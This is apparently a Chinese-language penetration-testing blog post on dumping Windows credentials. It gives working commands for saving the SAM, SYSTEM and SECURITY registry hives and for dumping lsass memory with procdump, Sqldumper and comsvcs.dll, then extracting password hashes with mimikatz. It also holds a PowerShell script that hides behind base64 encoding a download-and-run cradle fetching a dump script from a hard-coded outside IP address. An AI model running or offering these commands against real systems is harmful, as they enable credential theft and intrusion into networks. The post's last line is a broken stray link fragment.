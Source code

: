 ```yaml
---
title: 【域渗透】Credential Access Dumping
date: 2019-06-26 11:51:24
description: 极客兔兔的小站，致力于分享一些技术教程和有趣的技术实践。
---
```

凭据的获取，主要是说明了几种在主机中获取凭据 HASH 的方式，介绍了 SAM 和 LSA 凭据获取方式。

# SAM(Security Accounts Manager)

windows下的密码(HASH值)由SAM数据库储存，位置在C:\windows\system32\config\sam

## 0x01 注册表

```
Reg从注册表提取SAM：

reg save HKLM\SYSTEM sys.hiv

reg save HKLM\SAM sam.hiv

reg save hklm\security security.hiv
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d16217aa3725939b7b0a288)

接着拉回本地机器 (很多环境下，不允许上传或者使用mimikatz。而针对非域控的单机离线提取hash显得尤为重要。) 接着用 mimikatz 加载这两个文件正常读取即可。

```
# mimikatz.exe "lsadump::sam /system:sys.hiv /sam:sam.hiv" exit
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d1621c028011f4ba7fc9ded)

同时也可以使用impacket套件中的secretsdump.py脚本进行解密。

仓库地址：https://github.com/SecureAuthCorp/impacket

Exe单文件版：https://github.com/maaaaz/impacket-examples-windows (32位)

![img](https://www.yunzhijia.com/microblog/filesvr/5d1621f76d67ff7d0fb04601)

## Local Security Authority (LSA)

本地安全机构（LSA）是受 Microsoft Windows 保护的子系统，它是 Windows 客户端身份验证体系结构的一部分，该体系结构对本地计算机进行身份验证并创建登录会话。

LSA 是一个认证机制

## 0x02 prodump.exe

利用微软提供的prodump.exe 工具指定 lsass.exe 进程名进行抓取,

bitsadmin /rawreturn /transfer getfile https://raw.githubusercontent.com/klionsec/CommonTools/master/procdump.exe c:\windows\temp\dump.exe

![img](https://www.yunzhijia.com/microblog/filesvr/5d1622566d67ff7d0fb0473b)

接着，拖回本地用mimikatz.exe加载读取。

```
# mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d1622af28011f4ba7fca1e0)

## 0x03 Powershell

同时也可以使用powershell 进行远程加载提取进程文件，这里利用base64进行简单的混淆加密
如下：

![img](https://www.yunzhijia.com/microblog/filesvr/5d1622e06d67ff7d0fb049ac)

```
$address = "119.29.205.214"
$downport = "80"

$count1 = {
$n=new-object net.webclient;
$n.proxy=[Net.WebRequest]::GetSystemWebProxy();
$n.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;}

$count2 = 'IEX' +" "+ '$n'+'.downloadstring'+"('http://${address}:$downport/Out-Minidump.ps1')"

$count3 = "Get-Process lsass | Out-Minidump -DumpFilePath c:\windows\temp"

$count = ("$count1" +"`n"+ "$count2"+"`n"+$count3)

echo $count

Function base64([string]$string){
$byteArray = [System.Text.UnicodeEncoding]::Unicode.GetBytes($string)
[Convert]::ToBase64String( $byteArray )
}

$base64 = base64 $count

$end = ("powershell -ENC " + $base64)
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d16234bb54c8d56a98f4c24)

## 0x04 Sqldumper.exe

除此之外，还可以使用mssql安装目录下自带的Sqldumper.exe，他要比prodump.exe 小很多很多，如果目标机器上直接就有 mssql ，直接使用即可，没有则直接上传上去就好了。

(一般不会存在被AV杀掉的可能，除非安装的杀毒软件有dump内存文件保护。

![img](https://www.yunzhijia.com/microblog/filesvr/5d1623cea3725939b7b0ad96)

```
# tasklist | findstr "lsass.exe" 先找到 lsass.exe 进程 id
```

使用用法：

```
SqlDumper <process id (PID)> <thread id (TID)> <Flags:Minidump Flags> <SQLInfoPtr> <Dump Directory>
```

![img](https://www.yunzhijia.com/microblog/filesvr/5d16240fa3725939b7b0af06)

![img](https://www.yunzhijia.com/microblog/filesvr/5d16243b28011f4ba7fcaa41)

```
# mimikatz.exe "sekurlsa::minidump SQLDmpr0001.mdmp" "sekurlsa::logonPasswords full" "exit"
```

如下：

![img](https://www.yunzhijia.com/microblog/filesvr/5d16246ea3725939b7b0b112)

## comsvcs.dll

以上三种方法在原理上都是使用API MiniDumpWriteDump，参考资料：

https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump

由于comsvcs.dll导出函数中包含MiniDumpW,故使用该系统dll实现dump指定进程文件

```
powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 984 C:\lsass.dmp full"
如下：
```

![img](https://www.yunzhijia.com/microblog/filesvr/5dab25b732f2ca14fb88e4fe)https://hexo.io/docs/one-command-deployment.html)
